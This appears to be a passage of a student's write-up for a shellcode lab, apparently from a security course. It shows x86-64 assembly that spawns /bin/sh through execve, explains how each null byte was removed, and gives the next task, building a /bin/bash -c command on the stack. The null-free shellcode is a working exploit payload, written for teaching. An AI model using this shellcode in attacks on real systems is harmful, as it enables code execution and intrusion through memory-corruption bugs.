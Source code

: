 ```nasm
        lea rsi, [rbx+8]  ; Second arg: argv array
        xor rdx, rdx      ; Third arg: envp=NULL (replaces 'mov rdx, 0x00')

        ; Setup syscall number without immediate value
        xor rax, rax
        mov al, 59        ; syscall number for execve
        syscall
    two:
        call one
        db '/bin/sh', 0xFF    ; Command string (terminated later by code)
        db 'AAAAAAAA'         ; Placeholder for argv[0]
        db 'BBBBBBBB'         ; Placeholder for argv[1]
```

Explanations of the zero-eliminating modifications:

1. **Null terminator for `/bin/sh`**:
   - Original: `mov byte [rbx+7], 0`
   - New: Use `xor al, al` to get zero, then `mov [rbx+7], al`

2. **Moving rbx to memory**:
   - Original: `mov [rbx+8], rbx`
   - New: Use `push rbx` followed by `pop qword [rbx+8]`

3. **Zeroing rax**:
   - Original: `mov rax, 0x00`
   - New: `xor rax, rax`

4. **Zeroing rdx**:
   - Original: `mov rdx, 0x00`
   - New: `xor rdx, rdx`

5. **Setting syscall number**:
   - Original: `mov rax, 59`
   - New: First `xor rax, rax` then `mov al, 59`
   - This ensures only the lower byte is set, avoiding zeros in the higher bytes

6. **String termination**:
   - Original: Immediate zero in string
   - New: Use 0xFF as placeholder and programmatically write the null terminator


#### Task 2.c. Run a more complicated command

Inside mysh64.s, we construct the argv[] array for the execve() system call. Since our command is
/bin/sh, without any command-line arguments, our argv array only contains two elements: the first one
is a pointer to the command string, and the second one is zero.
In this task, we need to run the following command, i.e., we want to use execve to execute the follow-
ing command, which uses /bin/bash to execute the "echo hello; ls -la" command.
`/bin/bash -c "echo hello; ls -la"`
In this new command, the argv array should have the following four elements, all of which need to be
constructed on the stack. Please modify mysh64.s and demonstrate your execution result. As usual, you
cannot have any zero in your shellcode.
